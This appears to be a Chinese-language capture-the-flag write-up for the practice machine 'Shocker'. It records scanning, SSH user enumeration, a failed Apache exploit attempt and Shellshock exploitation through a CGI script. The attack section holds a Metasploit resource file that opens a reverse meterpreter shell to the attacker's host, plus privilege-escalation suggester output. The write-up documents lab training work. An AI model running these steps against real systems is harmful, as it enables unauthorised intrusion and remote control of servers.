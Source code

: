 ```yaml
---
title: Shocker（shellshock破壳漏洞）
categories:
- training
tags:
- training
---
```

10.10.10.56

```
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
```
## 1
访问web，是一个单纯的图片，查看源码无发现。

## 2
目录扫描ing.
两个目录403，未发现其他目录

## 3
低版本目录枚举：
```
ssh -p 2222 root@10.10.10.56

python ssh.py --port 2222 --username root 10.10.10.56
/usr/lib/python2.7/dist-packages/paramiko/rsakey.py:119: CryptographyDeprecationWarning: signer and verifier have been deprecated. Please use sign and verify instead.
  algorithm=hashes.SHA1(),
/usr/lib/python2.7/dist-packages/paramiko/rsakey.py:99: CryptographyDeprecationWarning: signer and verifier have been deprecated. Please use sign and verify instead.
  algorithm=hashes.SHA1(),
root is a valid user!
```
经过以上探测，没有发现任何攻击路径，然后找一下中间件版本漏洞。

## 4
**Apache HTTPD信息泄露漏洞(CVE-2016-4979)**
没发现可以exp

## 5
```
Apache < 2.2.34 / < 2.4.27 - OPTIONS Memory Leak                                                      | exploits/linux/webapps/42745.py

python3 42745.py -u http://10.10.10.56 -a
[ok] http://10.10.10.56: 'GET,HEAD,POST,OPTIONS'
```
## 6
nikto -h 10.10.10.56

nessus scan扫描都没有发现漏洞，尤其是目标主机名称为“Shocker”，我特地使用了Bash Shellshock Detection策略。
```
This policy is used to perform remote checks for the Shellshock vulnerability (CVE-2014-6271) via HTTP, FTP, SMTP, telnet, and SIP. SSH credentials can optionally be provided to test for CVE-2014-6271 via SSH and enumerate missing software updates for CVE-2014-6271 and CVE-2014-7291. 
```
## writeup
目录枚举发现/user.sh，下载后内容如下：
```
Content-Type: text/plain

Just an uptime test script

 01:13:47 up 6 days,  3:07,  0 users,  load average: 0.00, 0.00, 0.00
```
确认apache服务使用了cgi（通用网关接口），可以调用Linux的 bash shell。

job.rc
```
use exploit/multi/http/apache_mod_cgi_bash_env_exec
set RHOST 10.10.10.56
set TARGETURI /cgi-bin/user.sh
set SRVHOST 10.10.14.17
set SRVPORT 7788
set payload linux/x64/meterpreter/reverse_tcp
set target 1
run
```
```
getuid
Server username: uid=1000, gid=1000, euid=1000, egid=1000
sysinfo
Computer     : 10.10.10.56
OS           : Ubuntu 16.04 (Linux 4.4.0-96-generic)
Architecture : x64
BuildTuple   : i486-linux-musl
Meterpreter  : x86/linux
```
观察到meterpreter构架为86，于是更改一下payload和target。

## 提权
```
background
search suggester
use post/multi/recon/local_exploit_suggester
set SESSION 3
run

[+] 10.10.10.56 - exploit/linux/local/bpf_priv_esc: The target appears to be vulnerable.
[+] 10.10.10.56 - exploit/linux/local/bpf_sign_extension_priv_esc: The target appears to be vulnerable.
[+] 10.10.10.56 - exploit/linux/local/glibc_realpath_priv_esc: The target appears to be vulnerable.
```
![2](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/02-10/2.PNG)

## 总结
[shellshock漏洞介绍：](https://blog.csdn.net/fish43237/article/details/39609031)
```
   1）Linux WEB Server一般可以提供CGI接口，允许远程执行Bash命令；

   2）对于HTTP头部，CGI脚本解析器会将其当作环境变量，调用bash的env相关函数设置到临时环境变量中；

   3）HTTP协议允许发送任意客户端自定义的HTTP头部；

   4）这样就产生了一个完整的可供Bash命令注入的场景，客户端故意发送构造好的带攻击命令的HTTP头部到服务端，服务端调用设置环境变量的函数，直接执行了客户端指定的头部里面的命令。并且还会将结果一并返回给客户端。
```

